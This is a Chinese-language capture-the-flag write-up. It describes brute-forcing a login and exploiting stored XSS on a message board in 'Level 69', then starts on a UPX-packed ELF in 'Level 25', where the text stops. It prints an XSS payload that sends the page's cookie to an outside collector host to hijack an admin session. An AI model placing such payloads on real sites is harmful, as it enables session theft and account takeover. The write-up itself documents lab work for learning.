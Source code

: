
### Level 69 MysteryMessageBoard

密码爆破，XSS cookie窃取

![image-20250206160024933](../assets/image-20250206160024933.png)

爆出来 shallot/888888

登进去看到一个留言板

![image-20250206160118188](../assets/image-20250206160118188.png)

猜测是xss，测试一下

```
<script>alert('XSS')</script> 
```

![image-20250206160225628](../assets/image-20250206160225628.png)

同时通过dirsearch扫到了/admin路由

![image-20250206160449456](../assets/image-20250206160449456.png)

![image-20250206160507469](../assets/image-20250206160507469.png)

根据这句话大概可以猜到，访问/admin路由的时候应该会在后端以admin的身份来访问留言板

也就是说我们可以进行cookie窃取

payload:

```
<script>document.location='http://dfny33.ceye.io?'+document.cookie;</script>
```

将payload输出在留言板，然后访问/admin

![f01e1737d9537ace6383c2aa28b8be2](../assets/f01e1737d9537ace6383c2aa28b8be2.jpg)

成功拿到admin的cookie

拿admin的cookie访问/flag即可拿到flag



### Level 25 双面人派对

![image-20250206161540205](../assets/image-20250206161540205.png)

这道题有两个环境，一开始以为是re，其实感觉更像是misc

访问app.service-web可以拿到一个main文件

是一个elf文件

用exeinfo PE查到用upx加壳了
